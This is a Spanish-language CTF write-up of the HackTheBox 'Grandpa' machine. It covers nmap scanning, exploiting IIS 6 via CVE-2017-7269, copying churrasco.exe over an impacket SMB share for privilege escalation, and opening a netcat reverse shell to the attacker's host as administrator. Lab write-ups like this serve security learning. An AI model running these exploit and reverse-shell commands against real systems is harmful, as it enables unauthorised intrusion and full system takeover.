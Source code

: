 # GRANDPA MACHINE

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/1.png)

## INDEX

- [[#ENUMERACION|ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
	- [[#FORMAS DE HACER BANNER GRABBING|FORMAS DE HACER BANNER GRABBING]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]
	- [[#OPCION 2|OPCION 2]]
- [[#NOTA|NOTA]]


## ENUMERACION

Vemos que puertos abiertos tiene

```
nmap -p- --opent -T5 -n -v 10.10.10.14 -oG allPorts
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/2.png)

vamos a enumerar los servicios:

```
nmap -p80 -sC -sV 10.10.10.14 -oN targeted
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/3.png)

vemos que tiene un IIS desactualizado, veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/4.png)

nada interesante asi que vamos a ver si hay un exploit para esa version de IIS.

## EXPLOTACION

encontramos el siguiente exploit buscando a partir de un CVE que pertenecia a una vulnerabiliad en IIS 6:

- [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

lo ejecutamos:

```bash
python exploit.py 10.10.10.14 80 10.01.14.2 4545
```

nos colocamos en escucha en ese puerto y obtenemos una conexion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/5.png)

entramos como **nt authority\\network service**


## ELEVACION DE PRIVILEGIOS

al ver los privilegios que tenemos con ese usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/6.png)

vemos que tenemos el **SeImpersonatePrivilege** habilitado, podriamos usar el **juicypotato**, pero estamos ante una version un poco antigua de windows:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/7.png)

el juicypotato nos dara problemas con esta version pues no la soporta, pero tenemos una alternativa descrita en este archiculo acerca de **churrasco.exe**:

- [https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

vamos a descargarlo desde este repositorio:

- [https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)

y lo pasamos a la maquina victima por smbserver de impacket en **c:\\windows\\temp**

```bash
impacket-smbserver smbFolder $(pwd) smb2support
```

```bash
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/8.png)

y lo ejecutamos:

```bash
churrasco.exe -d "whomai"
```

esto nos permite ejecutar comandos como administrador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/9.png)

por lo que nos podemos pasar el netcat y pasarnos una shell con maximos privilegios:

```bash
churrasco.exe -d "C:\WINDOWS\Temp\chu\nc.exe -e cmd.exe 10.10.14.2 4242"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/10.png)

ya podemos ver las 2 flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/11.png)


